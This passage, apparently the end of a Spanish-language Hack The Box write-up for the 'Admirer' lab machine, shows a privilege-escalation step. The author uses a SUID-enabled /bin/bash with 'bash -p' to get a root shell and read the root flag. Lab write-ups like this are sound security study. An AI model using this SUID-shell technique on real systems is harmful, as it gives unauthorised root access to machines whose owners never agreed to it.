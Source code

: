 Ahora si revisamos los permisos que tenemos para `/bin/bash`:

```bash wrap=false
waldo@admirer:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1099016 May 15  2017 /bin/bash
```

Ahora tenemos permisos **SUID**. Por lo que podremos ejecutarlo como **root** con el comando `bash -p` que conserva los privilegios originales:

```bash wrap=false
waldo@admirer:/tmp$ bash -p
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# cat root.txt
f583b4cd06c25dae...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/248)

---
